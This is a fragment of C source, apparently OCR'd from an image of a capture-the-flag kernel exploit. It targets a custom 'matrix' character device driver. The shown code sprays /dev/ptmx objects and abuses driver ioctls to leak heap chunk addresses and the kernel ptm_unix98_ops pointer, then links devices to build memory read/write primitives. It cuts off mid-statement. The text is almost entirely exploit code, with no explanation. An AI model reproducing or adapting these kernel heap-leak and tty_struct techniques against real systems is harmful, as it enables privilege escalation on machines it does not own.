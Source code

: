 ```c
    }
}

void writeMATRIX64(int devfd, uint64_t* todo, off64_t offset){
    struct matrix_pos write_pos = {0};
    write_pos.col = 0;
    for(uint32_t i = 0 ; i < 8 ; ++i){
        write_pos.row = offset+i;
        write_pos.byte = ((char *)todo)[i];
        ioctl(devfd,IOCTL_MATRIX_SET_POS,&write_pos);
    }
}

int main(int argc,char** argv,char** envp){
    int fd1 = openDEV();
    int ptmx_fd = open("/dev/ptmx",O_RDWR);
    uint64_t chunk_addr1 = 0;
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    struct matrix_info info1={
        .rows = 0x2e0,
        .cols = 1
    };
    close(ptmx_fd);
    if(set_info(fd1,&info1) < 0 )
        errExit("Set info fd1");
    logInfo("Set fd1 info: done.");
    //Leaking
    readMATRIX64(fd1,&chunk_addr1,0x38);
    chunk_addr1 -= 0x38;
    logInfo("Chunk1 @ %p",(void *)chunk_addr1);


    int fd2 = openDEV();
    ptmx_fd = open("/dev/ptmx",O_RDWR);
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    struct matrix_info info2={
        .rows = 0x2e0,
        .cols = 1
    };
    close(ptmx_fd);
    if(set_info(fd2,&info2) < 0)
        errExit("Set info fd2");
    logInfo("Set fd2 info: done.");
    
    //Linking
    if(do_link(fd1,fd2) < 0)
        errExit("Do_link");
    logInfo("Link fd1 <-> fd2: done.");

    //Leaking
    uint64_t ptm_unix98_ops = 0;
    uint64_t chunk_addr2 = 0;
    readMATRIX64(fd2,&ptm_unix98_ops,0x18);
    readMATRIX64(fd2,&chunk_addr2,0x38);
    chunk_addr2 -= 0x38;
    logInfo("ptm_unix98_ops = %p",(void *)ptm_unix98_ops);
    logInfo("Chunk2 @ %p",(void *)chunk_addr2);

    int fd3 = openDEV();

    if(do_link(fd2,fd3) < 0)
```